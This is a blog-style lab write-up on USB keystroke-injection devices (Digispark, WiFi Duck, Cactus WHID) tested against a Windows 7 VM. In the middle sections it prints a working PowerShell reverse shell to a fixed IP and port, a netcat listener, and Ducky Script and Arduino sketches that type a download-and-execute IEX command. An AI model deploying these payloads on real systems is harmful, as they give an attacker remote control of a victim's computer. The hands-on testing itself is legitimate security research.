



Rubber Duckies: A Look at the Evolution of Keystroke Injection Devices

Over the years, various iterations of Rubber Duckies have surfaced. If I recall correctly, the first "Rubber Duckies" were simply repurposed USB sticks. 
Then, Hak5 introduced a custom-made [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) that was specifically built for this purpose and heavily marketed.
Later generations included sticks with built-in Wi-Fi, and now, we even see these devices hidden inside USB cables.

## Quick Theory 👨‍🏫

The core idea is to have a USB device that masquerades as a keyboard when connected to a target computer.
It sends pre-defined keystrokes that an attacker designs.
To craft these inputs, there's a dedicated scripting language called Ducky Script, which most of these devices support.

There are already numerous pre-built Ducky Scripts available online, with the most well-known source being Hak5’s [repository](https://github.com/hak5/usbrubberducky-payloads).
You can also use an online [generator](https://ducktoolkit.com).
However, in my experience, these scripts don’t work out-of-the-box and often need to be adapted to the specific system they’re targeting.

## Reverse Shell 🐚

I once tested [Hak5’s](https://shop.hak5.org/blogs/usb-rubber-ducky/the-3-second-reverse-shell-with-a-usb-rubber-ducky) Reverse Shell attack with one of these sticks.
I tried it on a modern Windows 10 system with Windows Defender active, and the attack was immediately blocked.

As a result, I switched to a Windows 7 system as the target.

## Setting Up the Target System 🎯

Luckily, I still had some old Windows 7 ISOs lying around. 😅

I wasn’t keen on installing Windows 7 on an actual machine, so I turned to my lab environment.
I quickly spun up a small VM and was surprised at how smoothly it ran with just 2GB of RAM.
One thing to keep in mind is that you need to pass through the USB port to the VM, which is easy to do in Proxmox: just go to `Hardware` -> `Add` -> `USB Device`.

## Setting Up the Attacker’s System 🏹

In this case, the attacker needs a machine or server too.
I’m using an LXC container in the same network, though normally this would be a server accessible over the internet.
On this server, I have a basic Apache2 web server running, which hosts a PowerShell script:


$sm=(New-Object Net.Sockets.TCPClient("192.168.178.92",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}


To start the reverse shell, run `nc -l -p 4444`, ideally within a `tmux` session.

Here’s the Ducky Script I used:


DELAY 1000
GUI r
DELAY 1000
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');"
ENTER


## Various Sticks

There are several devices you can use for these types of attacks, and I’ve tested a few.
Below are three examples: the Digispark Board, the WiFi Duck, and the Cactus WHID Stick.

### Digispark Board

[Digispark Board](img/digispark.jpg)

This is a very cheap USB stick equipped with an ATtiny85, a small and low-power microcontroller from Atmel (now Microchip). The device is slow with its keystrokes and quite noticeable, but it’s a good, affordable introduction to keystroke injection attacks.
Check out this video from [Null Byte](https://www.youtube.com/watch?v=A3cB9BDE6XM) on how to program it.

#### Programming with Arduino IDE

First, you need to install the Arduino IDE.
In the preferences, add the following URL: `http://digistump.com/package_digistump_index.json`

Then, install the Digistump AVR Board in the board manager.
Unfortunately, Ducky Script isn’t supported directly, so you have to program the board in the Arduino IDE.
You can find examples online, such as on [Github](https://github.com/CedArctic/DigiSpark-Scripts).

Here’s the Ducky Script converted into Arduino code:


#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    // Stops the digispark from running the script again
  }
}


If you run into upload errors like this:


micronucleus: library/micronucleus_lib.c:66: micronucleus_connect: Assertion `res >= 4' failed.
Aborted


You’ll need to adjust your USB rules by adding the following to `/etc/udev/rules.d/digispark.rules`:


SUBSYSTEM=="usb", ATTR{idVendor}=="16d0", ATTR{idProduct}=="0753", MODE="0660", GROUP="dialout"


However, the script didn’t work for me at first because my system was using a German keyboard layout.
I had to download the [DigiKeyboardDe.h](https://raw.githubusercontent.com/adnan-alhomssi/DigistumpArduinoDe/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboardDe.h) file and place it in the appropriate directory.

I then adjusted the code:


#include "DigiKeyboardDe.h"
#include "DigiKeyboard.h"

void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboardDe.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  for (;;) {
    // Stops the digispark from running the script again
  }
}


Unfortunately, these devices are unreliable, and I wouldn’t recommend them for real-world attacks.
However, they’re a fun and simple introduction to keystroke injection attacks.

### WiFi Duck

The WiFi Duck, developed by [Spacehuhn](https://github.com/spacehuhn), uses two microcontrollers: an Atmega32u4, which impersonates a keyboard, and an ESP8266, which provides Wi-Fi capabilities for remote control.
Installation is done via the Arduino IDE, and the instructions are well documented on the project’s [Github](https://github.com/SpacehuhnTech/WiFiDuck#atmega32u4-development-boards) page.
You can flash this firmware onto various sticks, or create a custom board to connect the necessary chips.

#### Web Interface

The ESP8266 creates a Wi-Fi network that you can connect to in order to access the device’s web interface.
Here, you can upload, manage, and execute scripts:

I was able to use the same Ducky Script from earlier but had to add `LOCALE DE` since my target system uses a German keyboard layout.
This change can be easily made via the web interface, which is convenient for editing, saving, and executing scripts.

There are also settings you can adjust via the Wi-Fi interface:

I really liked the web interface of the WiFi Duck, and it’s great for testing attacks.
The downside, in my setup, is that the device is quite noticeable.
However, using a [Malduino](https://maltronics.com/collections/malduinos/products/malduino-w) with WiFi Duck would probably be one of the best tools for such attacks. Another positive is that the software on GitHub is still actively maintained.

### Cactus WHID

The [Cactus WHID](https://github.com/whid-injector/WHID) is another USB stick that functions similarly to the WiFi Duck, using an Atmega32u4 for keystroke injection and an ESP-12S (similar to the ESP8266) for Wi-Fi.
It comes with its own firmware, which I wanted to try out, but dose not work.

There is a Duckuino that works much better for me.

Unfortunately, the different [languages](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout) have to be compiled in when creating the firmware.
This makes the stick less flexible.
The web interface is also not as good as that of the WiFi Duck.
The only advantage is that the stick itself is less conspicuous in the event of a real attack.

Feel free to reach out via email, LinkedIn, or GitHub Issues for questions and feedback.